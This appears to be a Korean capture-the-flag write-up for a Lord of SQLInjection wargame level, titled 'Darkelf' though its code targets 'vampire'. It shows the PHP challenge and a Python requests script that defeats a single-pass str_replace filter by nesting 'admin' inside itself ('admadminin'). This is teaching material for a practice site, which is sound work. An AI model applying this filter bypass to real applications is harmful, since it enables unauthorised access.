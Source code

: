 
## Darkelf Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");  
$_GET[id] = strtolower($_GET[id]);  
$_GET[id] = str_replace("admin","",$_GET[id]);  
$query = "select id from prob_vampire where id='{$_GET[id]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("vampire");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/vampire_e3f1ef853da067db37f342f3a1881156.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['id'] = 'admadminin'

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] VAMPIRE Clear")
```
이번 문제는 id가 admin이면 문제가 풀리는데 **str_replace()** 메소드를 이용해 admin을 빈 값으로 바꾼다.
str_replace() 메소드는 문자열을 삭제하는 방식으로 필터링 되어 있을 경우 우회가 가능하다.  
**adm`admin`in**과 같이 admin 단어 사이에 admin을 넣으면 `admin`이 빈 값으로 바뀌고, 
**admin**이 되어 문제가 해결된다.